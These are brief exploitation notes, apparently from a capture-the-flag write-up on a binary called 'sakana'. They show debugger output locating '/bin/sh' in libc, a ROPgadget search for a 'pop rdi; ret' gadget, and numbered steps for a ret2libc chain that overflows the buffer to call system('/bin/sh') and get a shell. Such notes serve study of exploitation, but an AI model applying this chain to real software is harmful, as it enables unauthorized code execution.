 ## Some Notes
1. There is the string "/bin/sh" in memory address 0x7f31bc4c55bd. (the virtual memory address is radom)
```
[+] Searching '/bin/sh' in memory
[+] In '/usr/lib/x86_64-linux-gnu/libc-2.31.so'(0x7f31bc4ab000-0x7f31bc4f9000), permission=r--
  0x7f31bc4c55bd - 0x7f31bc4c55c4  →   "/bin/sh" 
gef➤  x/bs 0x7f31bc4c55bd
0x7f31bc4c55bd: "/bin/sh"
```
2. There is a ROP gadget at 0x00000000000023a3
```
❯ ROPgadget --binary sakana --only 'pop|ret' | grep 'rdi'
0x00000000000023a3 : pop rdi ; ret
```
3. Overflow the buffer to cover the original return address ($rbp+8) with 0x23a3 + sakana_base_addr
4. Overflow the buffer to put the address of "bin/sh" in ($rbp+16) + libc_base_addr
5. Overflow the buffer to put the address of system() (0x52290) in ($rbp+24) + libc_base_addr
6. leave; ret (pop rip)
7. rip will point to the address of the ROP gadget
